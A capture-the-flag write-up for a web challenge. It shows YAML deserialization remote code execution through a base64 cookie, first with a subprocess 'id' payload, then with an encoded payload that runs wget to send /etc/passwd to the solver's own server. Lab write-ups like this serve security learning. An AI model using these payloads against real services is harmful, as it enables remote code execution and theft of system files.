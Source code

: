# A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Descreption
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but there is a problem the flag is in `/etc/passwd` and this payload doesn't accept spaces.

so a friend gave me a link `https://xerosecurity.com/wordpress/exploiting-python-deserialization-vulnerabilities/`.

## Solution
Run a web server with `python3 -m http.server`.

Payload: `Imdvb2RieWUiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6b3Muc3lzdGVtIFsid2dldCBodHRwOi8veW91ci13ZWItc2VydmVyLWlwLz9gY2F0IC9ldGMvcGFzc3dkYCJd` (decode it to know the answer and put your data and decode it again and input it as a cookie)
